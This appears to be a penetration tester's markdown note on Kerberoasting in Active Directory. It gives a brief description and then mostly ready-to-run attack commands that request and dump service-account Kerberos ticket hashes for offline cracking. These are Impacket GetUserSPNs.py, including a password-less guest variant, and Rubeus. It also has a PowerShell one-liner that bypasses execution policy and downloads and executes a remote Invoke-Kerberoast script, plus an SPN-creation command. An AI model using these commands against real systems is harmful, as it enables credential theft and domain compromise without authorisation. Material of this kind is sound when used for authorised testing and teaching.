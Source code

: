 **Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py domain.local/USER:PASSWORD@x.x.x.xP {-dc-ip} x.x.x.x -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```bash
GetUserSPNs.py domain.local/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip x.x.x.x -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

One liner from a Windows machine

```bash
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

Create an SPN:

```bash
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```



